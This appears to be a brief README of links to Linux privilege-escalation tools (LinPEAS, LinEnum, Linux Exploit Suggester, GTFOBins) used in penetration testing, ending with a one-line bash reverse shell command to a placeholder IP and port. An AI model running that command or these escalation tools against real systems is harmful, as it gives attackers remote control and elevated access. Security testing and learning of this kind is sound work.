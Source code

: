 # Useful-git-links
Useful git links

## Priviledge escalation Linux:
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS <br>
LinEnum: https://github.com/rebootuser/LinEnum<br>
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

Exploit for every sudo app for the user (sudo -l): https://gtfobins.github.io/

Reverse shell command:  bash -i >& /dev/tcp/<<ip>>/<<port>> 0>&1
